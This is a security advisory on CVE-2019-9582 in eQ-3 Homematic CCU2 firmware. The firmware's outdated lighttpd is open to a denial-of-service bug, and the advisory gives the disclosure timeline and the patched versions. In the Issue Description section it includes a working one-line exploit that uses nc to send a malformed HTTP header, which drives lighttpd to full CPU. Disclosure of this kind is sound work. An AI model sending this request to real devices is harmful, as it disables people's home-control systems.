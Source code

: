 ```yaml
---
layout: post
title:  "CVE-2019-9582 eQ-3 Homematic CCU2 outdated base software packages allows Denial of Service"
date:   2019-12-10 19:35:00 MEST
author: 'psytester'
---
```


# Overview

- CVE: CVE-2019-9582
- Author: psytester
- Title: eQ-3 Homematic CCU2 outdated base software packages allows Denial of Service
- Vulnerability Type: CWE-400 Uncontrolled Resource Consumption
-	CVSSv3 Base Score: 7.5
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
- Publishing Date: 24.07.2019
- Updated: 10.12.2019
- Vendor: eQ-3 AG	
- Product: Homematic CCU2
- Vendor contacted: 29.01.2019
- Vendor confirmation: 27.04.2019
- Vendor patch: 2.49.17 since 09.12.2019
- Vendor Reference: [HMCCU-359] in changelog of CCU2
- Affected Firmware version: 2.35.16, 2.41.5, 2.41.8, 2.41.9, 2.45.6, 2.45.7, 2.47.10, 2.47.12, 2.47.15, 2.47.20 tested


# Background

From [vendor's website](https://www.eq-3.com/products/homematic/control-units-and-gateways/homematic-central-control-unit-ccu2.html):<br>
HomeMatic Central Control Unit CCU2

Homematic Central Control Unit is the central element of your Homematic system, offering a whole range of control, monitoring and configuration options for all the Homematic devices in your installation<br>
[....]<br>

Past [eQ-3 press release](https://www.eq-3.de/aktuelles/newsreader/eq-3-schliesst-sicherheitsluecken-in-der-ccu.html) about taking security updates seriously (in German only):<br>
[...]<br>
eQ-3 ist es wichtig, dass auch solche Lücken geschlossen werden, die für die meisten Installationen keine Rolle spielen.<br> 
[...]<br>
Obwohl nur Nutzer betroffen sind, die gegen Sicherheitshinweise von eQ-3 verstoßen oder seit mehreren Jahren keine Sicherheitsupdates installiert haben, gibt eQ-3 solchen Fällen hohe Priorität und behebt entsprechende Sicherheitslücken schnellstmöglich nach Bekanntwerden in neuen Software-Versionen und Hotfixes.<br>
[...]


# Issue Description

The analysis of the underlying operating system of the CCU2 revealed that the BusyBox version 1.20.2 from 2012 with a Buildroot 2012.08 is installed as embedded Linux and that other outdated software packages are also used.

Just to name a few:
```
Buildroot 2012.08
BusyBox: v1.20.2
OpenSSH: 6.0p1
wget: GNU Wget 1.13.4
lighttpd: 1.4.31
Up to CCU2 Firmware < 2.47.10: Java(TM) SE Embedded Runtime Environment (build 1.8.0_121-b13, profile compact3, headless)
Since CCU2 Firmware >= 2.47.10: Java(TM) SE Embedded Runtime Environment (build 1.8.0_201-b09, profile compact3, headless)
Tcl Tk: 8.2.3
....
```

After a search for already known CVE entries, the lighttpd process proved to be susceptible because of [CVE-2012-5533](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-5533=CVE-2012-5533).<br>

This vulnerability can be exploited by unauthenticated attackers with access to the web interface:
~~~shell
echo -ne "GET / HTTP/1.1\r\nHost: 1.2.3.4\r\nConnection: TC,,Keep-Alive\r\n\r\n" | nc 1.2.3.4 80
~~~
After that the lighttpd is permanently in 99% CPU load and the CCU2 does not react anymore with its ReGa core process because the resources are used up:
```
PID  PPID USER     STAT   VSZ %VSZ %CPU COMMAND
  321     1 root     R     5548   2%  99% /usr/sbin/lighttpd -f /etc/lighttpd/lighttpd.conf
```
Just a restart of lighttpd process seems to be not enough to fix the overload condition, a reboot is required.

There might be much more vulnerabilities, as written in my German [blog post](https://psytester.github.io/embedded_Linux_Busybox_Buildroot/) about outdated embedded Linux Busybox/Buildroot installations.

# CVE

[CVE-2019-9582](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9582)

# CVSSv3 Base Score

CVSSv3 Base Score: 7.5

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H

# Base software is updated now since December 2019
10 months later the software is almost up-to-date now and this CVE is fixed.
```
Buildroot: 2019.05
BusyBox: v1.30.1
OpenSSH: 7.9p1
wget: GNU Wget 1.20.3
lighttpd: 1.4.53
java version 1.8.0_201
```

BTW, this is strange but somehow expected. The newer CCU3 hardware has now an older software base line. ;-)
```
Buildroot: 2018.08.2
BusyBox: v1.29.2
OpenSSH: 7.8p1
wget: GNU Wget 1.19.5
lighttpd: 1.4.50
```

# Credit
All researchers.<br>
[cvedetails](https://www.cvedetails.com/) for scanning and preparing all CVEs, separated by vendor and product.<br>
me, but I simply scanned known CVEs to use them.

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>


# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
